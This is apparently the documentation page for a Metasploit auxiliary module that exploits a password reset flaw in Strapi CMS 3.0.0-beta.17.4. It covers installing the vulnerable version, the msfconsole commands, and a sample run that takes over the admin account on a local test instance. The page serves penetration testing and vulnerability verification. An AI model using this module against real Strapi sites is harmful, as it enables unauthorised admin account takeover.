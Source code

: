 ## Vulnerable Application

This module abuses the mishandling of a password reset request for 
Strapi CMS version 3.0.0-beta.17.4 to change the password of the admin user.

Successfully tested against Strapi CMS version 3.0.0-beta.17.4.

### Install

`npx create-strapi-app@3.0.0-beta.17.4 yourProjectName`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/strapi_3_password_reset`
1. Do: `set new_password testtesttest`
1. Do: `set rport 1337`
1. Do: `set rhosts 127.0.0.1`
1. Do: `run`
1. You should be able to reset the admin users password

## Options

### NEW_PASSWORD

New Admin password. No default.

## Scenarios

### npx install of strapi 3.0.0-beta.17.4

```
msf6 > use auxiliary/scanner/http/strapi_3_password_reset
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set new_password testtesttest
new_password => testtesttest
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/strapi_3_password_reset) > set rport 1337
rport => 1337
msf6 auxiliary(scanner/http/strapi_3_password_reset) > check
[-] This module does not support check.
msf6 auxiliary(scanner/http/strapi_3_password_reset) > run

[*] Resetting admin password...
[+] Password changed successfully!
[+] User: superadminuser
[+] Email: none@none.com
[+] PASSWORD: testtesttest
[*] Auxiliary module execution completed
```
